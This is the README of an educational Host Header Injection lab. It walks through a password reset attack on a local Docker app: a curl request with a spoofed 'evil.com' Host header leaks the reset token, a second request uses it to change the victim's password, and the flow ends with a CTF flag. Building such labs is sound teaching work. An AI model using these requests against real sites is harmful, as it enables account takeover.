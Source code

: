 🎯 Host Header Injection Lab

Educational cybersecurity lab demonstrating Host Header Injection vulnerabilities in password reset functionality.

🐳 Quick Start with Docker
```bash
# Clone the repository
git clone https://github.com/YourUsername/password-reset-lab.git
cd password-reset-lab

# Start with Docker Compose
docker-compose up -d

Access lab at: http://localhost:8080
Phase 1: Preparation (Browser)

1.  Open [http://localhost:8080](http://localhost:8080) in your browser.
2.  Observe the "Current Status of 'victim@example.com'" – it should show 'Current Password: original123'.
3.  Get your Browser's 'PHPSESSID': Open Developer Tools ('F12'), go to the "Application" tab (or "Storage"), then "Cookies" for 'http://localhost:8080'. Copy the value of the 'PHPSESSID' cookie. You will need this for the next step.

Phase 2: The Attack - Command Line

1.  Step 1: Poison the Reset Link & Get Token
    This command tricks the vulnerable app into generating a reset link pointing to 'evil.com' and reveals the token.
    ```bash
    curl -v -X POST http://localhost:8080/ \
      -H "Host: evil.com" \
      -d "email=victim@example.com&request_reset=1"
    ```
    Observe Verbose Output (`-v`):** Look for the line containing 'href="http://evil.com/?token=<TOKEN>"'.
    Copy the '<TOKEN>' value. This is your stolen password reset token.

2.  Step 2: Reset Password Using Stolen Token
    This command uses the stolen token to change the victim's password on the legitimate application.
    ```bash
    curl -X POST "http://localhost:8080/?token=<PASTE_YOUR_TOKEN_HERE>" \
      -H "Cookie: PHPSESSID=<PASTE_YOUR_BROWSER_PHPSESSID_HERE>" \
      -d "new_password=hacked"
    ```
    Replace '<PASTE_YOUR_TOKEN_HERE>' with the token you copied from Step 1.
    Replace '<PASTE_YOUR_BROWSER_PHPSESSID_HERE>' with the 'PHPSESSID' you copied from your browser in Phase 1.
    Observe Output: It should confirm "PASSWORD CHANGED!"

Phase 3: Account Takeover Verification (Browser)

1.  Hard Refresh [http://localhost:8080](http://localhost:8080) in your browser ('Ctrl+Shift+R' or 'Cmd+Shift+R').
2.  Observe: The "Current Status of 'victim@example.com'" should now display 'Current Password: hacked'. This confirms the attack was successful.
3.  Login with compromised credentials:
    Go to the "USER LOGIN" form on the page.
    Email: 'victim@example.com'
    Password: 'hacked'
    Click "LOGIN TO GET FLAG".
   Success: The 'THM{P455W0RD_R353T_3XPL01T3D}' FLAG should be displayed!
